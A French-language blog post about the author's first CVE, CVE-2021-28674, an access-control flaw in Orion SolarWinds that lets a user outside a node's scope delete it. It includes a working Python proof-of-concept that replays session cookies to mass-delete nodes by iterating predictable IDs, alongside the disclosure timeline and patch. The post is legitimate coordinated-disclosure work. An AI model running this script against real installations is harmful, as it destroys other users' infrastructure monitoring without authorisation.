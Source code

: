 ```yaml
---
published: true
layout: post
title: "Orion SolarWinds : Ma première CVE (CVE-2021-28674)"
description: "Cet article décrit comment j'ai pu découvrir ma première CVE (CVE-2021-28674) sur le logiciel Orion SolarWinds."
lang: fr_FR
category: solarwinds,orion,cve,pentest,cve-2021-28674
---
```

![Orion SolarWinds : Ma première CVE (CVE-2021-28674)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/illustration.jpg)

**Orion SolarWinds** est une plateforme évolutive de gestion et de surveillance de l’infrastructure qui simplifie la gestion informatique des environnements sur site, hybrides et SaaS, sur un seul écran.
En décembre 2020, une cyber attaque à grande échelle s'appuyant sur Orion SolarWinds, utilisé par environ 33 000 clients des secteurs public et privé, est divulguée.
Suite à cela, de nombreux audits sont organisés et des CVE régulièrement trouvées. J'ai moi même pu auditer cette application, trouver et déclarer ma première CVE (CVE-2021-28674) de CVSS 4.6 (criticité moyenne) en date du 18 mars 2021.
Après plusieurs mois d'échanges avec l'éditeur et [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28674) pour s'accorder sur la correction et la date de publication, je peux enfin publier cet article car la mise à jour est déjà sortie depuis plusieurs semaines.

## Qu'est-ce que le cloisonnement
Le contrôle d'accès permet d'appliquer une politique telle que les utilisateurs ne peuvent agir en dehors des autorisations qui leur sont accordées. Les défaillances entraînent généralement la divulgation d'informations non autorisées, la modification ou la destruction de toutes les données ou l'exécution d'une fonction commerciale en dehors des limites de l'utilisateur.

## Fonctionnalité de gestion des nœuds
Orion SolarWinds NPM permet de créer des groupes. Un groupe est un ensemble d'objets surveillés. Par exemple, un administrateur peut regrouper les nœuds d'un même emplacement, regrouper toutes les interfaces WAN ou regrouper tous les appareils appartenant à un certain service. L'objectif final de la création de groupes est de permettre de visualiser certains nœuds selon les utilisateurs et de créer un contrôle d'accès sur les nœuds.
La page de gestion des nœuds avec le paramètre NetObject permet de visualiser et de supprimer le nœud **si l'utilisateur a les droits** en spécifiant l'identifiant du nœud (Par exemple : `https://URL-INTERNE/Orion/NetPerfMon/NodeDetails.aspx?NetObject=N:17158`).
Seuls les utilisateurs disposant du **droit d'écriture** peuvent supprimer un nœud **appartenant à leur périmètre**.


La demande de suppression d'un noeud a été rejouée avec un compte d'un périmètre B sur un noeud qui appartient au périmètre A :
[![Test de cloisonnement sur les nœuds Orion Solar Winds CVE-2021-28674](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/Orion-SolarWinds-cloisonnement-CVE.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/Orion-SolarWinds-cloisonnement-CVE.png)

Le code de retour de la requête est `200 OK` ce qui signifie que **le serveur prend en compte la suppression du nœud**.
Le noeud **n'est plus accessible** depuis le compte du périmètre A :
[![Nœud Orion Solar Winds supprimé](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/noeud-supprime.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/noeud-supprime.png)

Le nœud du **périmètre A** est donc **supprimé** par un compte du **périmètre B**. Cela prouve une **rupture de cloisonnement entre les périmètres**.
De plus, les identifiants des nœuds sont **incrémentaux** et donc facilement **prévisibles**, ce qui permet de créer un script pour **automatiser la suppression de tous les nœuds** pour un attaquant. Il est également possible de créer un nœud qui n'appartient pas à son périmètre.

Un script permettant de supprimer massivement les nœuds a été implémenté :
```python
try :
    import requests
    import time
except :
    print("The package 'requests' is not installed, please install it using pip3")
    exit(1)
        
url = "http://SERVER:PORT/orion/Services/NodeManagement.asmx/DeleteObjNow" # Replace SERVER by the IP or DNS of your Orion SolarWinds plateform
ASPXAUTH_value = "REPLACE ME BY YOUR COOKIE" # Replace this value by the .ASPXAUTH cookie value
NET_SessionId_value = "REPLACE ME BY YOUR COOKIE" # Replace this value by the NET_SessionId cookie value
number_of_nodes = 150 # The value can be changed to delete the first X number of nodes

custom_cookies = {"ASP.NET_SessionId": NET_SessionId_value,
                 "_ga": "GA1.1.1822133664.1613472044",
                 "_gid": "GA1.1.1288682357.1613472044",
                 ".ASPXAUTH": ASPXAUTH_value,
                 "XSRF-TOKEN": "sJs5IEd0v8S1Qxe33bsNocGeDk3T86WT6VN/HNFXDxE=",
                 "__AntiXsrfToken": "9a14f7b59a0c4352a500f0b84f2b7523"}

custom_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0", "Accept": "*/*",
                  "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate",
                  "X-Requested-With": "XMLHttpRequest", "Content-Type": "application/json; charset=utf-8",
                  "X-XSRF-TOKEN": "sJs5IEd0v8S1Qxe33bsNocGeDk3T86WT6VN/HNFXDxE=",
                  "Connection": "close"}

print("""
 ██████╗██╗     ███████╗██████╗ ███████╗██████╗ 
██╔════╝██║     ██╔════╝██╔══██╗██╔════╝██╔══██╗
██║     ██║     █████╗  ██████╔╝█████╗  ██████╔╝
██║     ██║     ██╔══╝  ██╔══██╗██╔══╝  ██╔══██╗
╚██████╗███████╗███████╗██████╔╝███████╗██║  ██║
 ╚═════╝╚══════╝╚══════╝╚═════╝ ╚══════╝╚═╝  ╚═╝
 
This PoC will delete the first """ +str(number_of_nodes) + """ nodes.
You need to replace the variables url, ASPXAUTH_value, number_of_nodes and NET_SessionId_value.
The script will start in 30 seconds, if you want to cancel it, press CTRL + C
""")
time.sleep(30) # Wait 30 seconds to prevent mishandling
print("Progress :")

for i in range (number_of_nodes):
    node_id={"netObjectIds": "N:" + str(i) + ":1"} # Iteration over the number of nodes because the nodes ID because ID is incremental 
    try :
        request = requests.post(url, headers=custom_headers, cookies=custom_cookies, json=node_id)
    except :
        print("Impossible to execute the request, check the url value")
        exit(2)
    if (request.status_code != 200):
        print("Impossible to delete nodes, please check the content of the variables ASPXAUTH_value, number_of_nodes and NET_SessionId_value")
        print("Status code : " + str(request.status_code))
        exit(2)
    print("{0:.2f}%".format(i*100/number_of_nodes)+" %")
print("The first " + str(number_of_nodes) + " are now deleted.")
```

Le script ainsi que la marche à suivre pour résoudre le problème a été envoyée directement à l'équipe sécurité de SolarWinds. Après plusieurs échanges, nous avons convenu d'un date de mise à jour et procédé à la déclaration sur MITRE. La page dédiée à la vulnérabilité est disponible sur le site de [SolarWinds](https://www.solarwinds.com/fr/trust-center/security-advisories/cve-2021-28674), la mise à jour en question a été publiée le 13 mai 2021 sur leur [page dédiée](https://support.solarwinds.com/SuccessCenter/s/article/Orion-Platform-2020-2-5-Hotfix-1?language=en_US)
Suite au déploiement de la mise à jour par SolarWinds, MITRE a publié tous les détails que je leur avait fait parvenir sur [cette page](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28674).

Nous avons décidé de lui attribuer le score CVSS de 4,6 qui en fait une vulnérabilité de criticité moyenne :
[![Test de cloisonnement sur les nœuds Orion Solar Winds CVE-2021-28674](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/cvss-de-la-cve-2021-28674.png)](/assets/images/2021-08-23-Orion-SolarWinds-ma-premiere-cve-2021-28674/cvss-de-la-cve-2021-28674.png)


